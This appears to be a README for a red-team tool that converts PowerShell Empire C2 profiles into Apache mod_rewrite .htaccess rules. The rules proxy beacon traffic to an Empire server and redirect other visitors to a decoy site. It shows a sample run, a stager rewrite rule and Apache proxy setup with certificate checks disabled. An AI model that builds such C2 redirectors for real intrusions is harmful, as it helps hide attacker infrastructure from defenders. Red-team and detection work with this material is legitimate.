 # Convert Empire profiles to Apache mod_rewrite .htaccess files to support HTTP C2 Redirection

This is a quick script that converts a empire profile to a functional mod_rewrite .htaccess file to support HTTP proxy redirection from Apache to a empire server.

You should test and tune the output as needed before depolying

__Updates and Features__

 - Rewrite Rules based on valid C2 URIs (HTTP GET, POST, and Stager) and specified User-Agent string. Result: Only requests to valid C2 URIs with a specified UA string will be proxied to the Team Server by default.
 - Uses a custom Malleable C2 profile to build a .htaccess file with corresponding mod_rewrite rules
 - HTTP or HTTPS proxying to the Empire Server
 - HTTP 302 Redirection to a Legitimate Site for Non-Matching Requests	

## Example
```
$ python e2modrewrite.py -i profile/comfoo.txt -c 192.168.1.1 -d https://google.com 

#### Save the following as .htaccess in the root web directory
########################################
## .htaccess START

RewriteEngine On

## (Optional)
## Empire Stager
## Uncomment and adjust as needed
#RewriteCond %{REQUEST_URI} ^/css/style1.css?$
#RewriteCond %{HTTP_USER_AGENT} ^$
#RewriteRule ^.*$ "http://192.168.1.1/download/po" [P,L]

## Profile URIs
RewriteCond %{REQUEST_URI} ^/(include/template/isx.php|wp06/wp-includes/po.php|wp08/wp-includes/dtcla.php|modules/mod_search.php|blog/wp-includes/pomo/src.php|includes/phpmailer/class.pop3.php)/?$

## Profile UserAgent
RewriteCond %{HTTP_USER_AGENT} ^Mozilla/5\.0\ \(Windows;\ U;\ MSIE\ 7\.0;\ Windows\ NT\ 5\.2\)\ Java/1\.5\.0_08?$
RewriteRule ^.*$ http://192.168.1.1%{REQUEST_URI} [P]

# Redirect all other traffic here
RewriteRule ^.*$ https://google.com/? [L,R=302]

## .htacess END
########################################
```

----------------------------------------------
## Apache Rewrite Setup and Tips

__Enable Rewrite and Proxy__

    a2enmod rewrite
    a2enmod proxy
    a2enmod proxy_http
    service apache2 reload

__SSL support requires the following in the site config__

    # Enable SSL
    SSLEngine On
    # Enable Proxy
    SSLProxyEngine On
    SSLProxyVerify none
    SSLProxyCheckPeerCN off
    SSLProxyCheckPeerName off

## References

[Apache mod_rewrite](http://httpd.apache.org/docs/current/mod/mod_rewrite.html)
